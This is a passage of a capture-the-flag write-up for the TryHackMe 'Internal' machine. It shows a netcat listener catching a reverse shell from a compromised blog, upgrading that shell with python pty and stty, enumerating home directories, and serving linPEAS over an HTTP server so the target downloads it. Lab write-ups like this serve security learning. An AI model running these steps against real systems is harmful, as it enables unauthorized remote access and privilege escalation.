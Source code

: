 <br>

I start a `nc -nvlp 4444` listener up on my system to catch the call back from the website. After that's taken care of I navigate back over to the main **http://internal.thm/blog/** site and get a shell back:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.65.114] 36436
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:40:11 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's make this an interactive shell:

`python -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

Background the shell and:

`stty raw -echo; fg`

Much better. A `whoami` shows that we're the default **www-data** user:

```
www-data@internal:/$ whoami
www-data
```

I take a quick look in the **/home** directory to see which users are out there but cannot access the one user who does show up:

```
ww-data@internal:/$ cd /home
www-data@internal:/home$ ls
aubreanna
www-data@internal:/home$ cd aubreanna/
bash: cd: aubreanna/: Permission denied
```

<br>

## System Enumeration

I transfer over **linPEAS** via a python http.server adn then wget the file onto the system and make it executable:

`python3 -m http.server 80`

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.65.114 - - [09/Feb/2022 11:43:23] "GET /linpeas.sh HTTP/1.1" 200 -
```
